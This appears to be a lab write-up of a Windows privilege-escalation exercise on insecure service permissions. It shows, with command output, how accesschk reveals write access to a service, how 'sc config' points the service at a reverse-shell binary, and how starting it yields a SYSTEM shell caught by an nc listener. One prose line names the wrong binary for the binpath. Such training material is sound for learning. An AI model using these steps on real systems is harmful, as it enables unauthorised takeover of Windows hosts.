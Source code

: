 ## Service Exploits - Insecure Service Permissions
- use `accesschk.exe` the `user` account permission on `daclsvc` service
- run the command `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
```
C:\PrivEsc>.\accesschk.exe /accepteula -uwcqv user daclsvc

.\accesschk.exe /accepteula -uwcqv user daclsvc

RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

C:\PrivEsc>
```
- if you find out that the user has the permission to change the service config, then you can run `sc qc daclsvc`

```
C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
- And therefore you can run `sc config daclsvc binpath="\"C:\PrivEsc\accesschk.exe\"".

```

C:\PrivEsc>sc config daclsvc binpath="\"C:\PrivEsc\reverse_system.exe\""
sc config daclsvc binpath="\"C:\PrivEsc\reverse_system.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\PrivEsc\reverse_system.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\PrivEsc>

```
- if you have a listener on kali, you can spawn a reverse shell with SYSTEM privileges
- `net start daclsvc`  
```

└─$ nc -lnvp 54       
listening on [any] 54 ...
connect to [10.18.112.115] from (UNKNOWN) [10.10.90.125] 49827
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

C:\Windows\system32>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\PrivEsc\reverse_system.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\Windows\system32>

```



